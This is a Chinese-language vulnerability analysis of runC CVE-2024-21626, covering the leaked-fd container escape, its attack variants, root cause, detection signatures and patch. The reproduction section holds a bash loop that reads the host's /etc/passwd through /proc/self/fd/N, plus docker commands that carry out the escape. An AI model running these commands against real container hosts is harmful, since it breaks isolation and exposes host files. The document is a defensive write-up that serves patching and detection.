

> 原文: 

一.  漏洞背景及介绍

RunC是一个基于OCI标准的轻量级容器运行时工具，用来创建和运行容器，该工具被广泛应用于虚拟化环境中，然而不断披露的逃逸漏洞给runC带来了严重的安全风险，如早期的CVE-2019-5736、CVE-2021-30465。

CVE-2024-21626 (CVSS score: 8.6) - runC process.cwd and leaked fds container breakout

漏洞影响的runC范围是： >=v1.0.0-rc93,<=1.1.11。该漏洞一共存在三种攻击方式：

攻击方式1：process.cwd配置错误攻击 在runC 1.1.11及更早版本中，runC init意外泄露了几个文件描述符，包括主机/sys/fs/cgroup句柄（此漏洞是在v1.0.0-rc93中引入的）。如果容器配置中有将process.cwd设置为/proc/self/fd/7/（实际情况中fd可能由于文件打开顺序不同而发生变化），则生成的pid1进程将在主机挂载namespace中拥有一个工作目录，从而允许该进程访问整个主机文件系统。这一漏洞虽然不直接针对runC，但恶意镜像可能将任何看似无害的非/路径作为符号链接到/proc/self/fd/7/上，以诱导用户启动可以访问主机文件系统的恶意容器。

此外，在 runC 1.1.12版本之前，runC在调用后也没有验证最终工作目录是否位于容器的挂载namespace内。

攻击方式2：runC exec容器逃逸攻击 攻击方式1中的fd泄露和缺乏工作目录验证同样也适用于runC exec命令。如果容器内的恶意进程知道管理进程将调用runC exec命令并配合--cwd参数指定路径，则它们可以使用指向/proc/self/fd/7/的符号链接替换该路径，从而打开并访问主机文件系统。

runC exec默认cwd为 /，不允许使用符号链接进行替换，因此攻击成功与否取决于攻击者是否获取到要使用--cwd参数的用户并找出目标工作目录的路径。如果目标工作目录是正在执行的程序二进制文件的父目录，则攻击可能无法成功。

攻击方式3a和3b：process.args主机二进制文件覆盖攻击 攻击3是针对攻击方式1和2的修改。可以通过修改攻击方式1和2中的路径为/proc/self/fd/7/../../../bin/bash来覆盖主机上的二进制文件，从而导致主机二进制文件由容器进程执行。然后，/proc/$pid/exe句柄可用于覆盖主机二进制文件，具体见CVE-2019-5736。因为被覆盖的二进制文件可以为/bin/bash，所以一旦特权用户执行目标二进制文件，攻击者就可以获得对主机的完全访问权限。

攻击方式3a是攻击方式1的变种，区别在于覆盖主机二进制文件，其中设置了一个恶意镜像来执行/proc/self/fd/7……/bin/bash，运行shell脚本覆盖/proc/self/exe，重写/bin/bash的主机副本。

攻击方式3b也是攻击方式2的变种，区别在于覆盖主机二进制文件，其中恶意容器进程覆盖容器内所有可能的runC exec目标二进制文件（例如/bin/bash），以便执行主机上的目标二进制文件，然后容器进程打开/proc/$pid/exe以访问主机二进制文件并覆盖它。

攻击方式3b在实际应用中更危险，因为它不需要用户运行恶意镜像。

二.  漏洞原理分析

触发CVE-2024-21626漏洞的核心问题是runC run 或者 runC exec 的过程中存在没有及时关闭的fd，从而导致文件描述符泄漏在容器环境中，用户可以通过这个文件描述来进行容器逃逸。

具体来说，在容器启动过程中，runC会设置容器的Cgroup信息，runC run 命令会创建一个用于操作 Cgroup 的接口类型对象 cgroups.Manager，根据runC 操作 Cgroup 的实现原理，它会打开宿主机文件系统中的 /sys/fs/cgroup 目录，直接写入Cgroup文件，为了保证Cgroup文件的安全性，对 Cgroup 文件的打开操作都是基于 Openat2 syscall [9]。

图1 runC操作cgroup中的openFile函数


图2 prepareOpenat2函数

Openat2是Linux kernel在5.6版本之后对Openat syscall的一个扩展，目的是为了让用户进行更细粒度的控制，比如O_CLOEXEC（执行exec前自动关闭文件描述符）这类细粒度的flag安全控制。

我们可以看出图1中的openFile函数中需要调用prepareOpenat2函数来测试当前系统是否支持Openat2 syscall，但在这里没有使用 O_CLOEXEC flag，如图2所示，同时已经打开的文件并没有被关闭， 这就导致了如果系统支持 Openat2，那么就会存在一个文件描述符泄漏（泄漏的文件描述符指向 /sys/fs/cgroup）的风险。进而攻击者就可以利用该文件描述符的 /proc/self/fd/ 符号链接访问宿主机文件系统[4][8]。

三.  漏洞复现

根据第一章漏洞介绍，该漏洞一共有三种攻击方式，这里我们选择基础的攻击方式1和攻击方式2进行复现。

3.1 

环境复现

runC版本：1.1.7

Docker版本：24.0.2

Linux 发行版：Ubuntu 18.04.6 LTS

Linux内核版本：6.1.25-060125-generic（注意5.6版本之前的Linux kernel不支持 openat2 这个 syscall 的，因此使用该版本之前的Kernel是无法成功复现该漏洞的[5]）

3.2 

流程复现

攻击方式1：process.cwd配置错误攻击

步骤1：首先根据下面的脚本确定本机上泄露的文件描述符（通常是7或者8，对应在Dockerfile中指定WORKDIR，或者也可以在docker run命令中指定）

```bash
#! /bin/bash
for i in {4..20}; do
docker run -it --rm -w /proc/self/fd/$i ubuntu:18.04 bash -c "cat /proc/self/cwd/../../../etc/passwd"
done
```
Dockerfile文件

步骤2：构建恶意镜像

docker build . -t cve-2024-21626

步骤3：执行容器逃逸

docker run -it --rm cve-2024-21626 bash

如图4、图5所示，可以看出我们成功地访问到了宿主机目录文件，当前的工作目录指向的也是/sys/fs/cgroup。

图4 攻击方式1下的容器逃逸


图5 攻击1下的容器工作目录

攻击方式2：runC exec容器逃逸攻击

步骤1：构建镜像并执行docker run -it --rm cve-2024-21626 bash命令将容器运行起来

步骤2：调用runC exec命令并配合--cwd参数指定工作路径来实现容器逃逸sudo docker exec -it -w /proc/self/fd/8 8a6cff7af0be bash（其中8a6cff7af0be是cve-2024-21626 image的CONTAINER ID）


图6 攻击方式2下的容器逃逸


四.  漏洞检测

上述提出的漏洞利用过程，我们可以看出几个典型的行为特征，如[4]：

1. 在容器中会产生当前工作目录（cwd）形如 /proc/self/fd/ 的进程。

2. 在容器中会产生目标目录形如 /proc/self/fd/ 的 symlink(2) 或 symlinkat(2) syscall。

3. 在容器中会产生 open/openat/openat2 syscall，且文件名具有 /proc/\d+/cwd/.* 的正则表达式特征。

针对以上特征，网络安全供应商Snyk针对该漏洞发布了一个基于eBPF的运行时检测工具[6]。除此之外，Snyk还发布了静态分析程序[7]，即通过扫描Dockerfile和镜像来识别利用该漏洞的命令。

五.  处置建议

runC目前发布了针对此漏洞的补丁[3]，具体包括：

a. 检查工作目录是否确实在容器内部（通过os.Getwd命令是否返回ENOENT来检查）。这会显式阻止 runC 在非容器工作目录中执行容器进程，从而消除前述提到的攻击方式1 和 2的威胁，即使在 fd 泄漏的情况下也是如此。

b. 在runC init的最后阶段和execve之前关闭所有内部 runC 文件描述符。这确保了内部文件描述符不能被用作execve的参数，从而消除攻击 3a 和 3b的威胁（即使在 fd 泄漏的情况下也同样有效）。

c. 修复导致这些漏洞可被利用的特定 fd 泄漏（标记/sys/fs/cgroup为O_CLOEXEC）。

d. 在执行runC init之前标记所有非 stdio 文件为O_CLOEXEC，以防止未来还有runC init文件描述符泄漏。

更多详情可以参考官方升级补丁[10]。

```
[1] https://snyk.io/blog/leaky-vessels-docker-runc-container-breakout-vulnerabilities/

[2] https://thehackernews.com/2024/02/runc-flaws-enable-container-escapes.html

[3] https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv

[4] https://nitroc.org/posts/cve-2024-21626-illustrated/#%E6%9E%84%E9%80%A0%E6%81%B6%E6%84%8F%E9%95%9C%E5%83%8F%E5%AE%9E%E7%8E%B0%E5%88%A9%E7%94%A8

[5] https://bestwing.me/CVE-2024-21626-container-escape.html

[6] https://github.com/snyk/leaky-vessels-dynamic-detector?tab=readme-ov-file

[7] https://github.com/snyk/leaky-vessels-static-detector

[8] https://www.manjusaka.blog/posts/2024/02/10/CVE-2024-21626/index.html#%E6%8E%A2%E6%B5%8B

[9] https://github.com/opencontainers/runc/blob/4bccb38cc9cf198d52bebf2b3a90cd14e7af8c06/libcontainer/cgroups/file.go#L86

[10] https://github.com/opencontainers/runc/commit/2a4ed3e75b9e80d93d1836a9c4c1ebfa2b78870e
```